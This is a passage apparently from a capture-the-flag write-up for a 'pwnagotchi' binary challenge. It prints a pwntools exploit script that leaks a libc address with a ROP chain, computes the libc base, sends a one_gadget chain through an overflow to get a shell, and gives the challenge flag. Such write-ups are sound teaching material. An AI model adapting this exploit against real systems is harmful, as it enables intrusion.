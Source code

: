```python
# Stage 2: Leak puts@libc

r.recvuntil('Enter your pwnagotchi\'s name: \n')

r.sendline(fit({PAYLOAD_PADDING: rop.chain()}))
r.recvuntil('is not happy!\n')

libc_puts = u64(r.recvn(6) + '\x00\x00')
log.info('Leaked libc_puts: 0x{:x}'.format(libc_puts))

# Stage 3: Build ROP Chain (Call one_gadget)

libc.address = libc_puts - libc.symbols['puts']
log.info('Calculated libc base address : 0x{:x}'.format(libc.address))

rop1 = ROP([elf, libc])
rop1.one_gadget()

log.success('Built ROP Chain (Call one_gadget)')
log.success(rop1.dump())

# Stage 4: Pwn

r.recvuntil('Enter your pwnagotchi\'s name: \n')

r.sendline(fit({PAYLOAD_PADDING: rop1.chain()}))

r.interactive()

```

Let's see it in action!

<script id="asciicast-337085" src="https://asciinema.org/a/337085.js" async></script>

Flag: `flag{theyre_so_cute}`
